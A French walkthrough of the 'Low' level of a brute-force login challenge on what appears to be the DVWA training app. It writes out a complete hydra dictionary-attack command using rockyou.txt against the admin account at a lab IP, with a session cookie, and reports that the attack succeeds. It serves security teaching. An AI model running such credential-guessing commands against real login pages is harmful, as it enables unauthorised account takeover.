



# Niveau "Low"

Le challenge nous présente l'équivalent d'une mire d'authentification :

Après un certain nombre de tentatives, il est évident que l’application n’implémente aucune protection contre les attaques de type brute force.

On utilise alors  `hydra` afin de retrouver le mot de passe de l'administrateur en utilisant une attaque par dictionnaire avec le fichier `rockyou.txt` (fichier disponible sur Kali) :

Etant pas très lisible sur l'impression écran, voici la commande utilisée :

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.203 -s 8080 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=jnh28vv1muneunmmbffhn25c45; security=low;"`

Brute force réussit, le mot de passe de l'administrateur est présent dans notre dictionnaire :

